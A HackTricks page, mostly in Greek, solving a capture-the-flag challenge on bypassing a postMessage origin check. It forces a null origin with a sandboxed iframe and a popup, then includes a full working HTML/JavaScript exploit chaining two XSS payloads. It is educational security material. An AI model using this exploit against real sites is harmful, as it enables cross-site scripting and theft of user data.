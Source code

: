# Bypassing SOP with Iframes - 1

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Iframes in SOP-1

Σε αυτήν την [**πρόκληση**](https://github.com/terjanq/same-origin-xss) που δημιουργήθηκε από [**NDevTK**](https://github.com/NDevTK) και [**Terjanq**](https://github.com/terjanq) πρέπει να εκμεταλλευτείτε ένα XSS στον κωδικοποιημένο
```javascript
const identifier = '4a600cd2d4f9aa1cfb5aa786';
onmessage = e => {
const data = e.data;
if (e.origin !== window.origin && data.identifier !== identifier) return;
if (data.type === 'render') {
renderContainer.innerHTML = data.body;
}
}
```
Το κύριο πρόβλημα είναι ότι η [**κύρια σελίδα**](https://so-xss.terjanq.me) χρησιμοποιεί το DomPurify για να στείλει το `data.body`, οπότε για να στείλετε τα δικά σας δεδομένα html σε αυτόν τον κώδικα πρέπει να **παρακάμψετε** το `e.origin !== window.origin`.

Ας δούμε τη λύση που προτείνουν.

### SOP bypass 1 (e.origin === null)

Όταν το `//example.org` είναι ενσωματωμένο σε ένα **sandboxed iframe**, τότε η **προέλευση** της σελίδας θα είναι **`null`**, δηλαδή **`window.origin === null`**. Έτσι, απλά ενσωματώνοντας το iframe μέσω του `<iframe sandbox="allow-scripts" src="https://so-xss.terjanq.me/iframe.php">` θα μπορούσαμε να **επιβάλουμε την προέλευση `null`**.

Αν η σελίδα ήταν **ενσωματώσιμη**, θα μπορούσατε να παρακάμψετε αυτή την προστασία με αυτόν τον τρόπο (τα cookies μπορεί επίσης να χρειαστεί να ρυθμιστούν σε `SameSite=None`).

### SOP bypass 2 (window.origin === null)

Η λιγότερο γνωστή πληροφορία είναι ότι όταν η **τιμή sandbox `allow-popups` είναι ρυθμισμένη**, τότε το **ανοιγμένο popup** θα **κληρονομήσει** όλα τα **attributes sandboxed** εκτός αν έχει ρυθμιστεί το `allow-popups-to-escape-sandbox`.\
Έτσι, το άνοιγμα ενός **popup** από μια **null origin** θα κάνει το **`window.origin`** μέσα στο popup επίσης **`null`**.

### Challenge Solution

Επομένως, για αυτή την πρόκληση, θα μπορούσε κανείς να **δημιουργήσει** ένα **iframe**, να **ανοίξει ένα popup** στη σελίδα με τον ευάλωτο χειριστή κώδικα XSS (`/iframe.php`), καθώς το `window.origin === e.origin` επειδή και τα δύο είναι `null`, είναι δυνατό να **στείλει ένα payload που θα εκμεταλλευτεί το XSS**.

Αυτό το **payload** θα πάρει τον **ταυτοποιητή** και θα στείλει ένα **XSS** **πίσω στην κύρια σελίδα** (τη σελίδα που άνοιξε το popup), **η οποία** θα **αλλάξει τοποθεσία** στη **ευάλωτη** `/iframe.php`. Επειδή ο ταυτοποιητής είναι γνωστός, δεν έχει σημασία ότι η συνθήκη `window.origin === e.origin` δεν ικανοποιείται (θυμηθείτε, η προέλευση είναι το **popup** από το iframe που έχει **origin** **`null`**) επειδή `data.identifier === identifier`. Τότε, το **XSS θα ενεργοποιηθεί ξανά**, αυτή τη φορά στην σωστή προέλευση.
```html
<body>
<script>
f = document.createElement('iframe');

// Needed flags
f.sandbox = 'allow-scripts allow-popups allow-top-navigation';

// Second communication with /iframe.php (this is the top page relocated)
// This will execute the alert in the correct origin
const payload = `x=opener.top;opener.postMessage(1,'*');setTimeout(()=>{
x.postMessage({type:'render',identifier,body:'<img/src/onerror=alert(localStorage.html)>'},'*');
},1000);`.replaceAll('\n',' ');

// Initial communication
// Open /iframe.php in a popup, both iframes and popup will have "null" as origin
// Then, bypass window.origin === e.origin to steal the identifier and communicate
// with the top with the second XSS payload
f.srcdoc = `
<h1>Click me!</h1>
<script>
onclick = e => {
let w = open('https://so-xss.terjanq.me/iframe.php');
onmessage = e => top.location = 'https://so-xss.terjanq.me/iframe.php';
setTimeout(_ => {
w.postMessage({type: "render", body: "<audio/src/onerror=\\"${payload}\\">"}, '*')
}, 1000);
};
<\/script>
`
document.body.appendChild(f);
</script>
</body>
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
